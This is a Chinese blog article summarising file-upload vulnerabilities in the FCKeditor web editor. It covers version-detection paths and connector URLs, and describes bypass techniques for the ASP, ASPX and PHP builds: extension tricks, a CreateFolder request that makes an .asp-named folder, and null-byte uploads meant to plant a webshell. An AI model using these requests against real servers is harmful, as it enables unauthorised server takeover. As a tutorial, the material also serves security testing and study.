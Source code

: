 ```yaml
---
title: "FCKeditor上传漏洞总结"
id: csdn50695885
---
```


## 0x01 FCKeditor简介

FCKeditor是一个专门使用在网页上属于开放源代码的所见即所得文字编辑器。它志于轻量化，不需要太复杂的安装步骤即可使用。它可和PHP、 JavaScript、ASP、ASP.NET、ColdFusion、Java、以及ABAP等不同的编程语言相结合。“FCKeditor”名称中的 “FCK” 是这个编辑器的作者的名字Frederico Caldeira Knabben的缩写。FCKeditor 相容于绝大部分的网页浏览器，像是 : Internet Explorer 5.5+ (Windows)、Mozilla Firefox 1.0+、Mozilla 1.3+ 和 Netscape 7+。在未来的版本也将会加入对 Opera 的支援。

![](../img/6a3165bd4c210c5d1ce928d21a5f12a4.png)

## 0x02 判断版本

常见判断版本方法有两个：

```
/fckeditor/editor/dialog/fck_about.html
/FCKeditor/_whatsnew.html
```

![](../img/3fff152e311fe07276b39ed54459d5e7.png)

## 0x03 上传地址常用的上传地址A

```
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com%2Ffckeditor%2Feditor%2Ffilemanager%2Fconnectors%2Fphp%2Fconnector.php (ver:2.6.3 测试通过)
FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector.jsp
```

常用的上传地址B

```
FCKeditor/editor/filemanager/browser/default/connectors/test.html
FCKeditor/editor/filemanager/upload/test.html
FCKeditor/editor/filemanager/connectors/test.html
FCKeditor/editor/filemanager/connectors/uploadtest.html
```

## 0x04 上传方法ASP版

asp一般是搭在windows主机上，webserver一般为IIS6/IIS7/IIS7.5。据我现在所知，asp版的fckeditor已经可以全秒了。

<2.4.x版本（也就是2.4.x及以下）的File参数时为黑名单验证，可以通过上传.asa、.cer、.asp;jpg（针对IIS6）。如果asa、cer不被解析，还可以传.asp[空格]。传的方法就是抓包然后在数据包里的文件名后填个空格。

2.5.x和2.6.x：如果是IIS6.0 ，可以通过突破变”.”为”_”限制创建.asp文件夹，代码如下：

```
Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=%2Fshell.asp&NewFolderName=z.asp
```

复制代码然后往这个文件夹里传jpg，这个不多说了。

如果是IIS7及以上，这种方法就**了。这个时候可以借助刚爆出来的那种方法，先传shell.asp%00txt，然后再传一次。

至此，asp版本已经全秒了。

## ASPX版

低版本同ASP版，2.6.x用刚爆出来的二次上传已经不好使了，不过新建test.asp的文件夹还可以使。一般IIS6.0会支持asp，可以先传个asp上去，然后再XX。

## PHP版

1.低版本（2.4.x及以下），仍然为黑名单验证，windows主机可以使用php[空格]传，2.4.3的有个media未设置导致任意文件上传可以秒linux。

2.2.5.x以后是白名单验证，仅能寄希望于wooyun里爆的那个<2.6.4的任意文件上传，成功率有限。

3.2.6.4以上的php版，据我所知没戏，求高人指点！我粗略的看了一下它的验证逻辑，表示没戏，windows里的敏感字符全给过滤了。